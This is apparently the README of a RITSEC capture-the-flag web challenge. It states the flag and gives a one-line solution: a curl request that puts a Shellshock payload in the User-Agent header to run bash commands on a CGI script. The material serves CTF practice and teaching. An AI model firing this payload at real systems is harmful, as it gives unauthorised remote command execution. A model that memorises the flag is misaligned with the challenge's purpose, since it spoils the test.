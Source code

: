 # Web 350: What a cute dog!
**Author**: sandw1ch

**Flag**: RITSEC{sh3ll_sh0cked_w0wz3rs}

## Description
This dog is shockingly cute!

## Deployment
Host the Dockerfile!  
*Note: They also get RCE on the container so this may have to be respun up...*

## TL;DR Writeup
`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'grep -r RITSEC /;'" http://localhost:80/cgi-bin/stats`

## Writeup
#TODO